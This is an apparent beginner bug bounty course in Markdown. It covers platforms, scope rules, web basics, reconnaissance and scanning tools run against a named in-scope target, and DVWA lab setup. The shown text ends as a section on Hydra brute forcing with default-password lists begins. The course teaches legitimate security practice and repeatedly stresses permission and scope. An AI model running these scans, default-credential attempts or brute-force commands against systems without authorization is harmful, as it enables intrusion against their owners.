


# Ultimate Bug Bounty Course for Beginners

## Course Overview
This course is designed for complete beginners who want to learn bug bounty hunting from scratch or strengthen their web hacking skills. The course takes you from zero to hero in bug bounty.

### Prerequisites
- **Computer Requirements**: Minimum 4GB RAM (8GB recommended)
- **Operating System**: Kali Linux (installation video provided in description)
- **Skills Required**: None! No programming languages, web hacking experience, or prior knowledge needed

---

## Module 1: Introduction to Bug Bounty

### What is Bug Bounty?
Bug bounty is a reward paid to people who find mistakes and bugs in websites, apps, and software - especially vulnerabilities that could be exploited by hackers.

**Key Points:**
- Companies want to find and fix bugs before malicious actors discover them
- They offer money to ethical hackers (white hat hackers) who help identify vulnerabilities
- It's like being a digital detective
- You can do this as freelancing - no degree or certification required
- If you have the skills, you can participate in bug bounty programs

**Important Rule:** You can only hack systems that are **in-scope** and with permission. Hacking out-of-scope targets can lead to legal trouble.

---

## Module 2: Bug Bounty Platforms

### What are Bug Bounty Platforms?
Platforms where companies run initiatives inviting ethical hackers (security researchers) to find and report bugs in their systems.

### Types of Programs

#### 1. **Public Bug Bounty Programs (BBP)**
- Open to everyone globally
- Anyone can participate and hunt for bugs
- Examples: Tinder, NBA, Nice#sh

#### 2. **Vulnerability Disclosure Programs (VDP)**
- Focus on responsible vulnerability disclosure
- May not offer monetary rewards
- Usually provides recognition/Hall of Fame
- Good for beginners to practice
- For companies without budget for rewards

#### 3. **Private Programs**
- Invitation-only programs
- Exclusive access for top-ranked hackers (typically top 100)
- Less competition
- Invitations earned through good performance on public programs

### Major Bug Bounty Platforms

#### HackerOne
- Leading global platform
- Protects major companies: Salesforce, Zoom, Uber, IBM
- **Platform URL**: HackerOne.com
- **Account Type**: Create as "I am a hacker"

**Key Features:**
- Public and private programs
- VDP programs
- CTF challenges for practice
- Program filtering by:
  - Asset types (domains, IPs, Android/iOS apps, APIs, AI models)
  - Industry types
  - Bounty ranges

#### Bugcrowd
- Another major platform
- Lists both own programs and other platforms' programs
- Many enterprise clients
- Filter options by rewards, scope, targets

#### Intigriti
- European-focused platform
- Most companies are Euro-based
- Rewards typically in Euros
- Good for targeting European companies

---

## Module 3: How to Choose a Bug Bounty Program

### Important Factors to Consider

#### 1. **Program Age**
- Older programs (4+ years) likely have been heavily tested
- Newer programs have higher probability of finding bugs
- Check launch date on program page

#### 2. **Reward Information**
- **Average Bounty**: Typical payout amount
- **Top Bounty Range**: Maximum possible reward
- **Total Paid**: Historical payouts (indicates program activity)
- **Recent Activity**: Reports received in last 90 days

#### 3. **Response Metrics**
- **Average Response Time**: How quickly team responds
- **Triage Time**: Time taken to start fixing issues
- Important for knowing program responsiveness

#### 4. **Reward Structure by Severity**

**Example (Rockstar Games):**
- **Minimum Bounty**: $150
- **Low**: $150 - $500 (Open Redirect, CSRF, Low Impact Access)
- **Medium**: $500 - $1,000 (Reflected XSS, DOM XSS)
- **High**: $1,000 - $2,000 (Stored XSS, Local Privilege Escalation)
- **Critical**: $2,500 - $25,000+ (SQL Injection, Remote Code Execution, Server Compromise)

#### 5. **Scope Analysis** (MOST IMPORTANT)

**In-Scope:**
- Assets you CAN legally test
- Look for wildcard domains: `*.rockstargames.com`
- Wildcard (`*`) means ALL subdomains are valid targets
- Larger scope = More opportunities to find bugs

**Out-of-Scope:**
- Assets you CANNOT test
- Testing these = No bounty + Possible legal issues
- Always check excluded domains/subdomains

**Example Wildcard Benefits:**
```
rockstargames.com with wildcard (*) includes:
- store.rockstargames.com ✓
- support.rockstargames.com ✓
- social.rockstargames.com ✓
- academy.rockstargames.com ✓
```

#### 6. **What's NOT Accepted**

Common exclusions:
- Physical access attacks
- Social engineering
- Denial of Service (DoS) attacks
- Third-party authentication bugs (unless they compromise the target)
- Automated tool results without manual confirmation
- Informational bugs (text injection, brute force)
- Bugs that affect user privacy/security/experience negatively

#### 7. **Non-Disclosure Agreement (NDA)**
- Cannot discuss vulnerabilities publicly before/after submission
- Must get permission before sharing online
- Can only share after fix + company approval

---

## Module 4: Web Fundamentals

### Client-Server Model

**Components:**
- **Client**: Device making the request (phone, PC, laptop)
- **Server**: System responding to requests
- **Network/Internet**: Medium connecting them

**How it Works:**
1. Client sends request for information
2. Request travels through internet
3. Server receives request
4. Server sends response back
5. Client receives and displays data

**Example:**
- You open YouTube on phone → Client (your phone) requests video
- Request goes to YouTube servers through internet
- YouTube server sends video data back
- Your phone displays the video

**Important Note:** Roles are reversible! If a server requests data from a client, the server becomes the client for that request.

---

### DNS (Domain Name System)

#### What is DNS?
- **Full Form**: Domain Name System
- **Protocol Used**: UDP (User Datagram Protocol)
- **Port Number**: 53
- **Purpose**: Translates domain names ↔ IP addresses

**Why DNS Exists:**
- Humans can't remember IP addresses (e.g., 142.251.87.238)
- Domain names are human-readable (e.g., google.com)
- DNS acts as a "dictionary" mapping names to IPs

#### Types of DNS Servers

##### 1. Root Server
- Top-level server containing the entire DNS tree
- Doesn't contain domain information itself
- Delegates authority to other servers
- Like a master encyclopedia pointing to specific dictionaries
- Example: Google Maps showing location of stores, but not what's inside

##### 2. Primary Server (Authoritative)
- Stores complete zone file for domains
- Has authority to create, maintain, and update zone files
- Contains actual DNS data for specific domains
- Like the actual dictionary with word definitions

##### 3. Secondary Server
- Backup server copying data from primary
- Cannot create or update zone files
- Used only for redundancy
- Ensures service continuity if primary fails

#### How DNS Resolution Works

**Step-by-Step Process:**

1. **User enters**: youtube.com in browser
2. **Request to ISP**: Goes to your Internet Service Provider's DNS server (Jio, Airtel, etc.)
3. **ISP checks**: Has cached data?
   - YES → Returns IP directly
   - NO → Forwards to Root DNS Server
4. **Root Server**: Returns TLD server info (.com DNS server location)
5. **TLD Server** (.com): Returns authoritative DNS server for youtube.com
6. **Authoritative Server**: Returns actual IP address of youtube.com
7. **Response chain**: IP → ISP → Your browser → Website loads

**Visual Flow:**
```
Browser → ISP DNS → Root DNS → .com TLD DNS → Authoritative DNS → IP Address → Browser
```

#### Top-Level Domains (TLDs)
- `.com` - Commercial (most common)
- `.gov` - Government organizations
- `.edu` - Educational institutions
- `.org` - Organizations (often non-profit)
- `.in` - Country code (India)
- Modern TLDs: `.io`, `.tech`, `.space`, `.live`

---

### IP Addresses

#### What is an IP Address?
- **Full Form**: Internet Protocol Address
- **Purpose**: Unique identifier for devices on a network
- **Function**: Like a phone number or home address for your device

**Characteristics:**
- Every device on internet has unique IP
- Helps devices identify and communicate with each other
- Used for routing information (web pages, emails, videos)
- Not human-friendly (hence DNS was invented)

**Example Format:**
```
IPv4: 142.251.87.238
```

**Real-World Analogy:**
- IP Address = Your home address
- Just as mail needs home address to reach you
- Data needs IP address to reach correct device

---

### Ports

#### What are Ports?
- **Definition**: Numerical identifiers directing network traffic to correct services
- **Range**: 0-65535
- **Purpose**: Allow multiple services on one IP address

**House Analogy:**
- **IP Address** = Your house address
- **Ports** = Different doors/rooms in the house
  - Kitchen door = For food-related items
  - Bedroom door = For personal items
  - Bathroom door = For hygiene items

**How Ports Work:**
```
IP Address: 192.168.1.1 (The house)
Port 80: HTTP web traffic (Kitchen door)
Port 443: HTTPS secure traffic (Bedroom door)
Port 53: DNS queries (Bathroom door)
```

**Common Ports:**
- Port 80: HTTP
- Port 443: HTTPS
- Port 53: DNS
- Port 21: FTP
- Port 22: SSH

---

### HTTP and HTTPS

#### HTTP (HyperText Transfer Protocol)

**Characteristics:**
- Protocol for browser-server communication
- **Stateless by default**: Doesn't remember previous requests
- Each request is independent
- Like "Ghajini" (character with short-term memory loss)
- No encryption - data sent in plain text

**Stateless Example:**
```
Request 1: User logs in → Server responds
Request 2: User views page → Server doesn't remember login
(That's why we need cookies/sessions!)
```

#### HTTPS (HTTP Secure)

**Features:**
- HTTP + Encryption (SSL/TLS)
- Protects data from being intercepted
- Shows green padlock in browser
- Essential for:
  - Login pages
  - Payment transactions
  - Sensitive data transfer

**Encryption Benefit:**
```
Without HTTPS: "password123" → Anyone can read
With HTTPS: "p@$$w0rd123" → "xK9mP2qL..." (encrypted, unreadable)
```

**Analogy:**
- HTTP: Sending a postcard (anyone can read)
- HTTPS: Sending a sealed, locked envelope (only recipient can open)

---

## Important Notes & Best Practices

### Program Selection Tips
1. Choose programs with wildcard domains for larger scope
2. Target industries you're familiar with (gaming, healthcare, etc.)
3. Check competition level (reports in last 90 days)
4. Start with VDP programs as beginner
5. Read entire scope and rules carefully

### Legal Considerations
- **ALWAYS** stay within scope
- Get explicit permission before testing
- Follow responsible disclosure
- Respect NDA requirements
- Never cause user privacy/security issues
- Don't perform DoS attacks

### What Makes a Good Target
✓ Wildcard domain (`*.example.com`)
✓ Recently launched program
✓ Reasonable bounty range
✓ Good response time
✓ Clear scope definition
✓ Active program (recent payouts)

---

## Activity Section of Programs
View disclosed reports from other researchers:
- Learn from real vulnerability examples
- See proper report formatting
- Understand what companies accept
- Study proof-of-concept (PoC) structure

---

## Next Steps
This covers the first half of the course. Coming up:
- Advanced reconnaissance techniques
- Vulnerability types deep-dive
- Practical hunting methodology
- Report writing
- Tool usage

---

---

## Module 5: HTTP Methods Deep Dive

### HTTP Request Methods

HTTP methods define how browsers communicate with servers. There are four main types:

#### 1. **GET Request**
- **Purpose**: Retrieve information from server
- **Use Case**: Loading web pages, fetching videos, viewing content
- **Example**: When you visit YouTube, your browser sends GET request for video data

#### 2. **POST Request**
- **Purpose**: Submit data to server and create new records
- **Use Cases**:
  - Login (sending username/password)
  - Posting comments on Instagram
  - Creating new content
- **Analogy**: Like mailing a letter through postal service

#### 3. **PUT Request**
- **Purpose**: Submit data to update existing information
- **Use Cases**:
  - Updating profile bio
  - Modifying existing records
- **Difference from POST**: POST creates new, PUT updates existing

#### 4. **DELETE Request**
- **Purpose**: Delete information/records from server
- **Use Case**: Deleting Instagram photos, removing content

**Quick Summary:**
- GET = Retrieve data from server
- POST = Send new data to server
- PUT = Update existing data on server
- DELETE = Remove data from server

---

## Module 6: HTTP Status Codes

Status codes tell us the state of our HTTP requests:

### 1xx - Informational Codes (100-199)
- **Meaning**: Server acknowledges and is processing the request
- Request is in progress

### 2xx - Success Codes (200-299)
- **Meaning**: Server successfully received, understood, and processed request
- **200 OK**: Most common success code
- Everything worked as expected

### 3xx - Redirection Codes (300-399)
- **Meaning**: Server received request but redirecting to another location
- **Example**: fb.com → facebook.com
- Resource has moved or multiple options available

### 4xx - Client Error Codes (400-499)
- **Meaning**: Error on client side (your side)
- **404 Not Found**: Most common - requested page doesn't exist on server
- Server doesn't have the data you're requesting

### 5xx - Server Error Codes (500-599)
- **Meaning**: Client made valid request but server failed to complete it
- **500 Internal Server Error**: Server has issues
- Request was correct, but server cannot process it

**Browser Developer Tools Demo:**
```
Press F12 or Right-click → Inspect
Go to Network tab
See all requests with status codes:
- 200 OK (green) = Success
- 302 Found = Redirect
- 404 Not Found = Page missing
```

---

## Module 7: Cookies

### The Stateless Problem of HTTP

**HTTP's Main Issues:**
1. ❌ Not encrypted (Fixed by HTTPS)
2. ❌ Stateless (doesn't remember previous requests)

### Why Cookies Were Invented

**The Problem:**
```
User logs into Facebook → HTTP Request 1
User posts comment → HTTP Request 2
Issue: HTTP doesn't remember Request 1 (login)
Result: You'd need to login again for every action!
```

### How Cookies Solve This

**Cookie Workflow:**
1. **Login**: User sends username/password to server
2. **Server Response**: Server sends back a cookie (stored in browser)
3. **Next Request**: Browser automatically sends cookie with each request
4. **Server Recognition**: Server reads cookie, recognizes user, allows action

**Key Points:**
- Cookies = Small data files stored in browser
- Used to identify users across requests
- Solve HTTP's stateless nature
- Keep you logged in continuously

**Analogy:**
Think of cookies like a membership card. Show it once, and the store remembers you on each visit.

---

## Module 8: Introduction to Reconnaissance

### What is Reconnaissance?

**Definition:** The initial phase of penetration testing where hackers gather maximum information about target systems and networks.

**Purpose:**
- Understand system architecture
- Identify vulnerabilities
- Find potential entry points
- Map out attack surface

**Military Analogy:**
Just like the army conducts reconnaissance before a surgical strike:
1. Confirm target location
2. Study blueprints/layout
3. Plan infiltration strategy
4. Execute operation

**In Bug Bounty:**
- More reconnaissance = More chances of finding bugs
- Weak recon = Likely no bugs found
- Reconnaissance comes BEFORE exploitation

**Golden Rule:**
> "The quality of your reconnaissance directly determines your success in bug hunting."

---

## Module 9: Subdomain Enumeration

### What are Subdomains?

**Definition:** Parts of a larger domain that organize different sections of a website.

**Structure:**
```
Main Domain: example.com

Subdomains:
- blog.example.com
- shop.example.com
- mail.example.com
- app.example.com
```

**Real Examples:**
- Google Mail: mail.google.com
- Google Drive: drive.google.com
- Google Maps: maps.google.com

### Why Subdomains Matter in Bug Bounty

**Key Advantages:**
1. Each subdomain = Different application
2. Wildcard domains (`*.example.com`) = Massive scope
3. More subdomains = More opportunities for bugs
4. Less tested subdomains = Higher bug probability

**Company Office Analogy:**
- Main domain = Office building
- Subdomains = Different departments (HR, IT, Accounts)
- Each department has different security levels
- Some are more vulnerable than others

---

## Module 10: Subdomain Enumeration Tools

### Target Selection: Rockstar Games
- Main domain: rockstargames.com
- Wildcard scope: *.rockstargames.com
- High functionality website (games, store, accounts)

### Tool 1: Subfinder

**Installation:**
```bash
# Method 1: APT (may be outdated)
sudo apt install subfinder

# Method 2: Manual (recommended for latest version)
1. Visit: https://github.com/projectdiscovery/subfinder
2. Click "releases"
3. Download: subfinder_*_linux_amd64.zip
4. Extract: unzip subfinder_*_linux_amd64.zip
5. Move: sudo mv subfinder /usr/local/bin/
6. Verify: subfinder -v
```

**Usage:**
```bash
# Basic scan
subfinder -d rockstargames.com -all

# Save results
subfinder -d rockstargames.com -all -o subdomains.txt
```

**How It Works:**
- Searches public sources (Google, search engines)
- Finds indexed subdomains
- Fast and comprehensive
- Uses multiple data sources

**Results:** Found 468 subdomains in ~2 minutes

### Tool 2: Amass

**Installation:**
Similar to Subfinder (Project Discovery tool)

**Usage:**
```bash
amass enum -d rockstargames.com
```

**What It Provides:**
- DNS records (NS, MX records)
- Name server information
- Mail server records
- Additional subdomain data

**Filtering Output:**
```bash
# Extract only subdomains from output
grep pattern amass.txt > amass_final.txt
```

### Tool 3: DNSx (DNS Bruteforcing)

**Key Difference:**
- Subfinder/Amass = Find publicly indexed subdomains
- DNSx = Bruteforce hidden subdomains

**Why DNSx is Important:**
- Finds subdomains NOT indexed by Google
- Discovers hidden/internal subdomains
- Uses wordlist-based bruteforcing
- Companies don't want these found (perfect for bug bounty!)

**Installation:**
```bash
# Download from GitHub
# Install seclists wordlist
sudo apt install seclists

# Usage
dnsx -d rockstargames.com -w /usr/share/wordlists/amass/subdomains-top20000.txt
```

**Wordlist Location:**
```
/usr/share/wordlists/amass/
- subdomains-top1million.txt
- subdomains-top20000.txt
- subdomains-top5000.txt
```

---

## Module 11: Organizing Reconnaissance Data

### Creating Project Structure

```bash
# Create target folder
mkdir rockstargames

# Save all enumeration results
cd rockstargames
```

### Combining Results

**Files Created:**
1. `subfinder.txt` - Subfinder results
2. `amass_final.txt` - Amass filtered results
3. `dnsx.txt` - DNSx bruteforce results

**Merge & Deduplicate:**
```bash
cat subfinder.txt amass_final.txt dnsx.txt | sort -u > final_subdomains.txt
```

**Result:** Unique list of all discovered subdomains

---

## Module 12: Filtering Live Subdomains with HTTPx

### The Problem
Not all discovered subdomains are active or usable. Need to filter:
- ✓ Live websites
- ✓ Accessible applications
- ✗ Dead/inactive subdomains

### Tool: HTTPx

**Installation:**
```bash
# GitHub download
# Extract and move to /usr/local/bin/
httpx -version
```

**Usage:**
```bash
cat final_subdomains.txt | httpx \
  -o targets.txt \
  -status-code \
  -location \
  -title \
  -tech-detect
```

**Flags Explained:**
- `-status-code`: Shows HTTP status (200, 404, 500, etc.)
- `-location`: Shows redirect locations
- `-title`: Webpage title
- `-tech-detect`: Identifies technologies (Apache, Nginx, etc.)

### Analyzing Results

**Status Code Analysis:**

**200 OK (Success):**
```
store.rockstargames.com [200] [E-commerce Store]
✓ Live website
✓ Full functionality
✓ Prime target for testing
```

**404 Not Found:**
```
videos.rockstargames.com [404] [Not Found]
✗ No content
✗ Lower priority
```

**301/302 (Redirect):**
```
fb.com → facebook.com [302]
✓ Check redirect destination
✓ May reveal hidden endpoints
```

### Target Selection Criteria

**Good Targets:**
✓ 200 status code
✓ Interactive functionality (login, shop, search)
✓ User input fields
✓ E-commerce/transactions
✓ API endpoints

**Avoid:**
✗ Static information pages
✗ University websites (no functionality)
✗ Pure documentation sites
✗ 404 responses

### Selected Target Example

**store.rockstargames.com**
- Status: 200 OK
- Type: E-commerce platform
- Features: Login, Buy, Search, Cart
- Tech: Windows Server, Apache 2.4
- **Decision**: Primary target for bug hunting

**Secondary Target:**
```
bombgar.rockstargames.com
- Remote support portal
- Session-based authentication
- Beyond Trust Remote Support software
- Potential: Internal tool (high-value target)
```

---

## Module 13: Port Scanning Introduction

### What are Ports?

**Definition:** Numerical identifiers that direct network traffic to correct services on a device.

**House Analogy (Recap):**
```
IP Address = Your house address
Ports = Different doors in the house
  - Port 80 (HTTP) = Front door (web traffic)
  - Port 443 (HTTPS) = Side door (secure traffic)
  - Port 22 (SSH) = Back door (remote access)
  - Port 53 (DNS) = Mail slot (DNS queries)
```

**Key Concept:**
- Each port = Specific service
- Port numbers: 0-65535
- Different data types use different ports
- Helps organize network communication

---

## Tools Used Summary

| Tool | Purpose | Created By |
|------|---------|------------|
| Subfinder | Find public subdomains | Project Discovery |
| Amass | DNS enumeration + records | Project Discovery |
| DNSx | Bruteforce hidden subdomains | Project Discovery |
| HTTPx | Probe live hosts + tech detection | Project Discovery |
| Wappalyzer | Technology detection (browser) | Extension |

---

## Key Reconnaissance Workflow



---

## Best Practices for Subdomain Enumeration

### Do's:
✓ Always use multiple tools (different results)
✓ Save all outputs separately
✓ Combine and deduplicate results
✓ Check for live hosts before testing
✓ Prioritize targets with functionality
✓ Look for hidden/internal subdomains

### Don't's:
✗ Rely on single tool
✗ Skip deduplication step
✗ Test all subdomains blindly
✗ Ignore status codes
✗ Target static/informational sites
✗ Forget to update tools regularly

---

## Important Notes

### Tool Updates
- Always use latest versions from GitHub
- GitHub URL + `/releases` for direct downloads
- Old versions may miss results or have bugs
- Update command: Check installation section for each tool

### Project Discovery Tools
All major tools come from Project Discovery:
- Consistent interface
- Well-maintained
- Active community
- Regular updates

### File Organization
```
rockstargames/
├── subfinder.txt
├── amass.txt
├── amass_final.txt
├── dnsx.txt
├── final_subdomains.txt
└── targets.txt (HTTPx results)
```

---

## Practical Tips

1. **Wordlist Selection**: Start with top 20k, then try 1 million if needed
2. **Time Management**: Some scans take time - be patient
3. **Result Storage**: Always save outputs with `-o` flag
4. **Incremental Approach**: Subfinder → Amass → DNSx → HTTPx
5. **Technology Detection**: Note server types and versions for later

---

## What's Coming Next

Part 3 will cover:
- Port scanning techniques
- Directory bruteforcing
- Technology analysis
- Vulnerability identification
- Actual exploitation methods

---

---

## Module 13: Port Scanning Deep Dive

### Common Ports and Services

| Port | Protocol | Service | Purpose |
|------|----------|---------|---------|
| 20 | TCP | FTP Data Transfer | File transfer in FTP sessions |
| 21 | TCP | FTP Command/Control | Commands in FTP sessions |
| 22 | TCP | SSH | Remote server access |
| 25 | TCP | SMTP | Email sending (Gmail) |
| 53 | UDP | DNS | Resolving domain names to IPs |
| 80 | TCP | HTTP | Web page transmission |
| 443 | TCP | HTTPS | Secure web traffic (SSL/TLS) |

### Port Scanning Tools

#### Tool 1: Nmap (Network Mapper)

**Description:** Swiss Army knife of scanning tools - versatile and comprehensive.

**Basic Scan:**
```bash
sudo nmap -sS -sV store.rockstargames.com
```

**Flags Explained:**
- `-sS`: SYN scan (stealth scan)
- `-sV`: Version detection

**Results:**
```
PORT    STATE   SERVICE    VERSION
80/tcp  open    http       Amazon CloudFront httpd
443/tcp open    ssl/https  Amazon CloudFront httpd
```

**Analysis:**
- Only 2 ports open
- Both web-related (HTTP/HTTPS)
- Running Amazon CloudFront
- No other services exposed

#### Tool 2: Naabu (Fast Port Scanner)

**Installation:**
```bash
sudo apt install naabu
```

**Usage:**
```bash
naabu -host store.rockstargames.com
```

**Advantages:**
- Faster than Nmap
- Good for quick scans
- Multiple domains simultaneously
- Lightweight

**Key Difference:** Naabu is faster; Nmap provides more detailed information.

---

## Module 14: Directory Bruteforcing

### What is a Directory?

**Definition:** A folder on a web server containing files and other folders, similar to your computer's folder structure.

**Example Structure:**
```
website.com/
├── images/
├── admin/
├── backup/
├── api/
└── uploads/
```

**Purpose:** Organize files so websites know where to find resources.

### What is Directory Bruteforcing?

**Technique:** Try to find hidden and unlisted directories/files by guessing common folder/file names.

**Why It's Important:**
- Find hidden admin panels
- Discover backup files
- Locate API endpoints
- Find forgotten/unprotected pages
- Access sensitive information

**Building Analogy:**
- Visible doors = Linked pages (Login, Contact, Games)
- Hidden doors = Unlinked directories (trying different names to find them)

### Tool: Feroxbuster

**Installation:**
```bash
sudo apt install feroxbuster
```

**Basic Usage:**
```bash
feroxbuster -u https://store.rockstargames.com \
  -w /usr/share/wordlists/dirb/common.txt \
  -t 100 \
  -C 404
```

**Flags Explained:**
- `-u`: Target URL
- `-w`: Wordlist path
- `-t 100`: Threads (speed - be careful!)
- `-C 404`: Filter out 404 responses

**Important Notes:**
⚠️ **Thread Warning:** High threads = Many requests = May trigger WAF/blocking
- Default threads recommended
- High threads for testing only

**Results Found:**
- `/search` - Search functionality
- JavaScript files (analyze for endpoints)
- `/merchandise` - Product pages
- `/refund-return-policy` - Policy pages
- Various application endpoints

**Recursive Scanning:**
Feroxbuster automatically scans discovered directories deeper:
```
/static/ → /static/chunks/ → /static/chunks/[files]
```

### Additional Tools

#### Wafw00f (Firewall Detection)
```bash
wafw00f https://store.rockstargames.com
```

**Result:** CloudFront (Amazon firewall)

**Why Important:** Know which firewall you're bypassing during exploitation.

---

## Module 15: Vulnerability Scanning with Nuclei

### What is Nuclei?

**Description:** Modern high-performance vulnerability scanner using YAML-based templates.

**Key Features:**
- Template-based scanning
- Built-in templates (thousands)
- Custom template creation
- Automation-ready

### Installation

```bash
# Download from GitHub
# Visit: github.com/projectdiscovery/nuclei
# Releases section

# Extract and install
unzip nuclei*.zip
sudo mv nuclei /usr/local/bin/

# Update templates
nuclei -ut
```

### Usage

**Single Target:**
```bash
nuclei -target https://store.rockstargames.com
```

**Multiple Targets (List):**
```bash
nuclei -l targets.txt
```

### Results Interpretation

**Finding Categories:**
- 🔴 Critical: SQL Injection, RCE
- 🟡 Medium: XSS, CSRF
- 🔵 Info: Security headers, SSL config

**Example Results:**
```
[INFO] Weak cipher suites
[INFO] CloudFront detected
[INFO] Deprecated TLS
[INFO] Missing security headers
```

**Note:** Information findings aren't reportable in bug bounty but useful in penetration testing.

---

## Module 16: Web Crawling with Katana

### What is Katana?

**Description:** Fast web crawler that extracts all links, JavaScript files, and hidden endpoints.

**Installation:**
```bash
# Same as other Project Discovery tools
sudo mv katana /usr/local/bin/
```

### Usage

```bash
katana -u https://store.rockstargames.com \
  -jc \
  -o katana.txt \
  -ff
```

**Flags:**
- `-jc`: JavaScript crawler
- `-u`: Target URL
- `-o`: Output file
- `-ff`: Form fill (experimental)

### Results

**Discovers:**
- Internal links
- External references
- JavaScript files (.js)
- CSS files
- API endpoints
- Hidden parameters
- Refund/support pages

**JavaScript Files Analysis:**
Sometimes contain:
- API keys (accidental exposure)
- Hidden endpoints
- Internal function names
- Sensitive comments

---

## Module 17: Lab Setup - DVWA

### What is DVWA?

**Full Name:** Damn Vulnerable Web Application

**Purpose:**
- Practice web vulnerabilities safely
- Learn exploitation techniques
- Test tools in controlled environment

**Technologies:** PHP + MySQL

### Installation

**Prerequisites:**
```bash
# Install Docker
sudo apt install docker

# Enable Docker on startup
sudo systemctl start docker
sudo systemctl enable docker
```

**Download DVWA:**
```bash
# Pull DVWA image
sudo docker pull vulnerables/web-dvwa

# Run DVWA
sudo docker run -p 80:80 vulnerables/web-dvwa
```

**Access:** http://localhost

**Default Credentials:**
- Username: admin
- Password: password

### Configuration Fix

**Issue:** Some features disabled by default

**Fix `allow_url_include`:**
```bash
# Check running containers
sudo docker ps

# Copy container ID
# Example: abc123def456

# Copy PHP config
sudo docker cp abc123def456:/etc/php/7.0/apache2/php.ini .

# Edit file
sudo nano php.ini
# Find: allow_url_include = Off
# Change to: allow_url_include = On

# Copy back
sudo docker cp php.ini abc123def456:/etc/php/7.0/apache2/php.ini

# Restart Apache
sudo docker exec -it abc123def456 bash
service apache2 restart
exit
```

### Security Levels

**Four Levels:**

1. **Low:** Completely vulnerable
   - No security measures
   - Easy exploitation
   - Perfect for learning

2. **Medium:** Bad security practices
   - Some protection
   - Still exploitable
   - Moderate difficulty

3. **High:** Harder to exploit
   - Better security
   - Requires advanced techniques

4. **Impossible:** Fully secure
   - Proper validation
   - Cannot be exploited
   - Shows secure coding

**Additional Feature:** PHPIDS (Web Application Firewall)
- Can be enabled/disabled
- Simulates real-world WAF

---

## Module 18: Brute Force Attacks

### What are Brute Force Attacks?

**Definition:** Trying every possible combination of keys to unlock a door.

**Example:** 4-digit PIN
```
Try: 0000, 0001, 0002... 1234 ✓
Eventually finds correct combination
```

**Computer Context:** Automatically try millions of password combinations to crack a password.

### Security Implementations That Block Brute Force

1. **CAPTCHA:** Must solve after each attempt
2. **Lockout Mechanism:** Account locks after X failed attempts
3. **IP Blocking:** Blocks your IP after multiple failures
4. **Rate Limiting:** Delays between attempts
5. **Account Flagging:** Marks account as suspicious

**Where It Works:**
- Offline password cracking (always works, just takes time)
- Online portals WITHOUT protection
- Forgotten/abandoned subdomains
- Internal tools with weak security

### Default Password Attacks

**Definition:** Trying factory-setting passwords that devices/services come with.

**Common Defaults:**
- admin / admin
- admin / password
- root / root
- admin / 1234
- administrator / administrator

**Why They Work:**
- Developers forget to change
- System admins use defaults
- Old/forgotten systems
- Internal tools

**First Step:** Always try common passwords before brute forcing:
1. admin/admin
2. admin/password
3. admin/123456
4. Check Google for service-specific defaults

### Practical: Hydra Tool

**What is Hydra?**
Fast online password attack tool supporting 50+ protocols.

**Supported Services:**
- HTTP/HTTPS
- FTP
- SSH
- MySQL
- PostgreSQL
- SMTP
- And many more

#### Step 1: Intercept Request with Burp Suite

**Setup Burp Suite:**
```
1. Install FoxyProxy extension in browser
2. Configure proxy:
   - Title: Burp
   - Host: 127.0.0.1
   - Port: 8080
   - Type: HTTP
3. Enable proxy in FoxyProxy
4. Open Burp Suite → Intercept ON
```

**Intercept Login Request:**
```
1. Try login with test credentials
2. Burp captures request
3. Note these values:
   - Parameter names (username, password)
   - Request method (GET/POST)
   - Cookie values
   - Failure message
```

**Example Intercepted Request:**
```
GET /vulnerabilities/brute/?username=admin&password=1234&Login=Login
Host: localhost
Cookie: PHPSESSID=...; security=medium
```

#### Step 2: Build Hydra Command

**Basic Structure:**
```bash
hydra -l <username> -P <password_file> <target> <service> "<parameters>"
```

**Flags:**
- `-l` (lowercase): Single username
- `-L` (uppercase): Username file
- `-p` (lowercase): Single password
- `-P` (uppercase): Password file

**Full Command Example:**
```bash
